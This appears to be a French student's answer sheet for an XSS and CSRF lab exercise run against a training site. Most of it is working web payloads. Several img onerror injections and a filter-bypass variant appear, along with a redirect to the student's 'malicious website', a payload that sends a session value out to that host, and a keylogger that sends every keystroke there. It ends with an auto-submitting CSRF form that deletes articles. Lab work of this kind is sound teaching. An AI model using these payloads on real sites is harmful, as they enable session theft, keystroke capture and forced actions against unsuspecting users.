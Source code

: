 

Partie 1


Level 1 : 


1) https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22rien%22%20onerror=%22alert(%27gros%hello%27)%22%3E

Level 2 :

 1)
<img src='zzz.jpg' onerror= alert('zebi') ></img>

2)
	Elles sont supprimées lors de l'envoi du formulaire, le code serveur doit vérifier leur présence à la reception dui formulaire pour les supprimer.'
		
3)

4)
<img src='zzz.jpg' onerror= window.location.replace("https://my-malicious-website-dherment.herokuapp.com/"); ></img>



5)
<img src="zzz.jpg" onerror="let img = document.createElement('IMG'); img.setAttribute('src','https://my-malicious-website-dherment.herokuapp.com?session=' + sessionStorage.getItem('SESSIONAVOLER')), document.body.appendChild(img)">

Level 3)

1) <i<img>mg  src='zzz.jpg' onerror= alert('zebi') />

2)  <img src="zzz.jpg" onerror="
    let pressed = '';             
    document.onkeypress = function (e) {
        pressed += e.key;
        let sendKeys = new XMLHttpRequest();
        sendKeys.open('GET','https://my-malicious-website-dherment.herokuapp.com/data=' + pressed, true); 
        sendKeys.setRequestHeader('Access-Control-Allow-Origin', '*');
    sendKeys.send('data=' + pressed);                
    }   
">

Partie 2 

1 ) 
mon site : https://my-malicious-website-dherment.herokuapp.com/ 
il marche après avoir galéré pcq j'avais pas les bons guillemets, merci les 2 points.

2) <form action="https://xss-csrf-tp.herokuapp.com/articles/delete" method="GET" id="formMechant"></form>
<script>
    window.addEventListener('load', function () {
        document.getElementById('formMechant').submit();
    });
</script> 

3) flemme
